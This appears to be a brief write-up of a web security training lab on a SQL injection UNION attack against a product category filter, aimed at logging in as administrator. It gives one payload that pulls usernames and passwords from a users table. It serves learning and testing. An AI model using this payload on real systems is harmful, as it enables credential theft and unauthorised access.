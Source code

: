 # Tenth Lab : SQL Injection

Lab - 10 : SQL injection UNION attack, retrieving data from other tables

SQL Injection : product category filter

Endgoal : Logging in as administrator

Analysis : 

1. SQL Injectability → True 
2. Retrieve data 
    
    ```
    Payload -> ' UNION SELECT username, password FROM users--
    ```
    
    ![vmplayer_09rhq7o6nL.png](Tenth%20Lab%20SQL%20Injection%2021a3c5d54c7680a18904e5a6e48f806b/vmplayer_09rhq7o6nL.png)
